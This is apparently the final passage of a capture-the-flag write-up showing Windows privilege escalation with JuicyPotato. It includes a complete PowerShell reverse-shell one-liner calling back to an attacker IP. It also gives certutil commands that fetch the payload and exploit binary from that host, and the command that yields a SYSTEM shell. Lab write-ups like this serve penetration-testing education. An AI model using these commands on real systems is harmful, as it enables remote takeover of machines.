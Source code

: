 Lets try JuicyPotato to escalate privileges:

First I created a file called shell.bat:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.46',444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then transfered this script along with JuicyPotato over to the target:

```text
certutil -urlcache -split -f "http://10.10.14.46/shell.bat"

certutil -urlcache -split -f "http://10.10.14.46/JuicyPotato.exe"
```

Then, with my listener set up I ran:

```text
PS C:\users\Sarah\Desktop> C:\Users\Sarah\Desktop\JuicyPotato.exe -l 444 -p C:\Users\Sarah\Desktop\shell.bat -t *
```

And caught a shell back as nt authority\system!

![jp.png](../assets/tally_assets/jp.png)

Thanks for following along!

-Ryan

------------------------------------------------------

